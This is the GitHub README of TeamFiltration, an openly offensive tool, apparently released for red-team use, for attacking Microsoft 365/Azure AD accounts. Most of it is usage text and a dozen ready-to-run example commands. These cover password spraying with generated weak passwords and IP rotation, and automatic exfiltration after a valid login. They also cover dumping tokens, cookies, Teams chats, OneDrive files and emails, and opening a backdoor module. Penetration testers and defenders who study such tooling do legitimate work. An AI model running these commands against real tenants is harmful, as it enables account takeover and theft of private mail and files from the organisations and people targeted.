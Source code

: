 
 <p align="center">
 <img src="TFLogo.png" width="500px" alt="TeamFiltration" />
</p>

## TeamFiltration

TeamFiltration is a cross-platform framework for enumerating, spraying, exfiltrating, and backdooring O365 AAD accounts.
See the [TeamFiltration](https://github.com/Flangvik/TeamFiltration/wiki/Home) wiki page for an introduction into how TeamFiltration works and the [Quick Start  Guide](https://github.com/Flangvik/TeamFiltration/wiki/Home#quick-start-guide) for how to get up and running!

This tool has been used internally since January 2021 and was publicly released in my talk "Taking a Dumb In The Cloud" during DefCON30.

## Download
[You can download the latest precompiled release for Linux, Windows and MacOS ](https://github.com/Flangvik/TeamFiltration/releases/latest)   

**The releases are precompiled into a single application-dependent binary. The size go up, but you do not need NET or any other dependencies to run them.**

## Usage

```

  ╔╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╗
 ╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬
╬╬╬╬┤                              ╠╬╬╝╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬
╬╬╬╬╣                              │      ╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬
╬╬╬╬╣                              ││      ╚╬╬╝╚ └╚╝╬╬╬╬╬╬
╬╬╬╬╣         ╔╦╦╬╬╬╬╬╬╦╦╗         ││       │        ╬╬╬╬╬
╬╬╬╬╣     ╔╬╬╬╝╝┘      ╚╝╝╬╬╬┐     ││       ││       └╬╬╬╬
╬╬╬╬┤    ╬╬╝╚╩╬╗╔          ╚╬╬╬    ││       ││        ╬╬╬╬
╬╬╬╬┤   ╬╝      ╚╬╬╗╗ ╔      ╚╬╗   ││      ├││        ╬╬╬╬
╬╬╬╬┤  ╬╬     ╔╗   ╚╬╬╬╬╬╬╦    ╬╬  │┌    ╔╬┤││       ╔╬╬╬╬
╬╬╬╬┤ ╔╬┤     ╬╬╬   ╬╬╬╬╬╬╬╬╝╝╝╬╬╗ ╠╬╬╬╬╬╬╬╬╬╗      ┌╬╬╬╬╬
╬╬╬╬┤ ╬╬┤     ╚╩┘   ╚╬╬╬╬╬╩    ╠╬╬ ╚╝╝╝╝╝╝╝╝╝╬╬╗╗╗╦╬╬╬╬╬╬╬
╬╬╬╬┤ ╬╬┤                      ╠╬╬ ││         ╬╬╬╬╬╬╬╬╬╬╬╬
╬╬╬╬┤  ╬╬   ╦╗            ╗╗   ╬╬  ││         │       ╬╬╬╬
╬╬╬╬┤  └╬┐   ╚╬╗╗      ╔╬╬╝   ╔╬┘  ││         │       ╬╬╬╬
╬╬╬╬┤   └╬╗    ╚╩╩╬╬╬╩╩╝╝   ╔╬╬    ││         │       ╬╬╬╬
╬╬╬╬┤    ╚╬╬╬╗           ┌╗╬╬╝┘    ││         │       ╬╬╬╬
╬╬╬╬┤       ╚╩╬╬╬╦╦╦╦╦╦╬╬╬╝╝       ││         │       ╬╬╬╬
╬╬╬╬┤            ╚╚╝╝╝╝            ││         │       ╬╬╬╬
╬╬╬╬┤                              ││         │    ╔╗╬╬╬╬╬
╬╬╬╬┤                              ││         ╬╦╦╬╬╬╬╬╬╬╬╬
╬╬╬╬┤                              ││     ╔╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬
╬╬╬╬┤                              ╬╬╬╗╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬
╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬
 └╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╝
   ╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝

[❤] TeamFiltration V3.5.1 PUBLIC, created by @Flangvik at @TrustedSec
[+] Args parsed 
Usage:

   --outpath     Output path to store database and exfiltrated information (Needed for all modules)

   --config      Local path to your TeamFiltration.json configuration file, if not provided will load from the current path

   --exfil       Load the exfiltration module

         --username            Override to target a given username that does not exist in the database
         --password            Override to target a given password that does not exist in the database
         --tokens              Override to target a (file with newline seperated JWT tokens|single JWT| , seperated JWT tokens) and perfom exfiltration
         --cookie-dump         Override to target a given account using it's refresh-cookie-collection

         --all                 Exfiltrate information from ALL SSO resources (Graph, OWA, SharePoint, OneDrive, Teams)
         --aad                 Exfiltrate information from Graph API (domain users and groups)
         --teams               Exfiltrate information from Teams API (files, chatlogs, attachments, contactlist)
         --teams-db            Exfiltrate cookies and authentication tokens from an exfiltrated Teams database
         --onedrive            Exfiltrate information from OneDrive/SharePoint API (accessible SharePoint files and the users entire OneDrive directory)
         --owa                 Exfiltrate information from the Outlook REST API (The last 2k emails, both sent and received) 
               --owa-limit          Set the max amount of emails to exfiltrate, default is 2k.
         --jwt-tokens          Dump all gathered JSON formated JTW-tokens for SSO resources (MsGraph,AdGraph, Outlook, SharePoint, OneDrive, Teams)

   --spray       Load the spraying module

         --aad-sso             Use SecureWorks's Azure Active Directory password brute-forcing technique when spraying
         --us-cloud            When spraying companies attached to US Tenants (https://login.microsoftonline.us/)

         --passwords           Path to a list of passwords, common weak-passwords will be generated if not supplied
         --exclude             Path to a list of emails to exclude from spraying
         --seasons-only        Password genersated for spraying will only be based on seasons
         --months-only         Password generated for spraying will only be based on months
         --common-only         Spray with the top 20 most common passwords
         --shuffle-passwords   Shuffle the passwordlist before spraying
         --shuffle-users       Shuffle the target userlist before spraying
         --shuffle-regions     Shuffle FireProx regions when spraying

         --auto-exfil          If valid login is found, auto start the exfil module

         --sleep-min           Minimum minutes to sleep between each full rotation of spraying default=60
         --sleep-max           Maximum minutes to sleep between each full rotation of spraying default=100
         --jitter              Seconds between each individual authentication attempt. default=0
         --time-window         Defines a time windows where spraying should accour, in the military time format <12:00-19:00>
         --push                Get Pushover notifications when valid credentials are found (requires pushover keys in config)
         --push-locked         Get Pushover notifications when an sprayed account gets locked (requires pushover keys in config)
         --force               Force the spraying to proceed even if there is less the <sleep> time since the last attempt

   --enum        Load the enumeration module

         --domain              Domain to perfom enumeration against, names pulled from statistically-likely-usernames if not provided with --usernames
         --usernames           Path to a list of usernames to enumerate (emails)
         --dehashed            Use the dehashed submodule in order to enumerate emails from a basedomain
         --validate-msol       Validate that the given o365 accounts exists using the public GetCredentialType method (Very RateLimited - Slow 20 e/s)
         --validate-teams      Validate that the given o365 accounts exists using the Teams API method (Recommended - Super Fast 300 e/s)
         --validate-login      Validate that the given o365 accounts by attemping to login (Noisy - triggers logins - Fast 100 e/s)

   --backdoor        Loads the interactive backdoor module

   --database        Loads the interactive database browser module

   --debug           Proxy all outgoing HTTP requests through the proxy specified in the config

   Examples:

        --outpath C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --spray --sleep-min 120 --sleep-max 200 --push --shuffle-users --shuffle-regions
        --outpath C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --spray --push-locked --months-only --exclude C:\Clients\2021\FooBar\Exclude_Emails.txt
        --outpath C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --spray --passwords C:\Clients\2021\FooBar\Generic\Passwords.txt --time-window 13:00-22:00
        --outpath C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --exfil --cookie-dump C:\\CookieData.txt --all
        --outpath C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --exfil --aad 
        --outpath C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --exfil --tokens C:\\OutputTokens.txt --onedrive --owa
        --outpath C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --exfil --teams --owa --owa-limit 5000
        --outpath C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --debug --exfil --onedrive
        --outpath C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --enum --validate-teams
        --outpath C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --enum --validate-msol --usernames C:\Clients\2021\FooBar\OSINT\Usernames.txt
        --outpath C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --backdoor
        --outpath C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --database

```

## Credits

- [GitHub - KoenZomers/OneDriveAPI: API in .NET to communicate with OneDrive Personal and OneDrive for Business](https://github.com/KoenZomers/OneDriveAPI)
- [Research into Undocumented Behavior of Azure AD Refresh Tokens ](https://github.com/secureworks/family-of-client-ids-research) 
- [WS API Gateway management tool for creating on the fly HTTP pass-through proxies for unique IP rotation](https://github.com/ustayready/fireprox)
- Credits to [Ryan](https://twitter.com/detectdotdev) for validating and discussing my observations / questions!
- The entire [TrustedSec](https://TrustedSec.com) team for helping me polish this tool! 

